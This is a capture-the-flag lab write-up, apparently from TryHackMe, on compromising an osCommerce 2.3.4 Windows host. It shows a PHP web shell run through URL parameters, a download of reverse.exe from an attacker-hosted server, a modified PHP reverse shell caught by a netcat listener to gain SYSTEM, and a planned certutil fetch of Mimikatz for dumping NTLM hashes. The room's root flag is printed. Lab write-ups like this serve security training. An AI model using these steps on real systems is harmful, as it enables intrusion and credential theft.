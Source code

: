 - now followed the above steps again but now install of `shell.php` i will download the `reverse.exe`

`http://10.17.24.189:8000/reverse.exe reverse.exe`

- now success fully uplaoded the reverse.exe file and now going back to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=dir

we change the command to `reverse.exe` and start a netcat (port 4444) listener for it

- this http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=reverse.exe also did not work for me

---

- now found this resource https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

- using the above method to deliver this file


- change `system` to `shell_exec` in the windows php reverse shell
`$output = shell_exec($cmd);`
 started nc listener , triggered the file and got a shell


```
C:\Windows\Temp>whoami
whoami
nt authority\system

```

- and found the root flag

```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```



- now to get the   
"Lab" user NTLM hash decrypted

using the writeup we get

---
For this, we will use **Mimikatz** it's **a leading post-exploitation tool that dumps passwords from memory and** **hashes**, **PINs**, and Kerberos tickets.

The Big Question Here is that How to get Mimikatz on the server as we don't have services like Netcat and Curl To Download Files?.

So for this, we will use **Certutil.exe** this is **a command-line program**, installed as part of Certificate Services. We can use this to Fetch File From Other Servers

We will first get the x86 Version of Mimikatz in our Current Directory and then start a simple python HTTP server. And then Setup certutil.exe on the target machine to fetch Our Hosted File. Launch Certutil using the following command.

---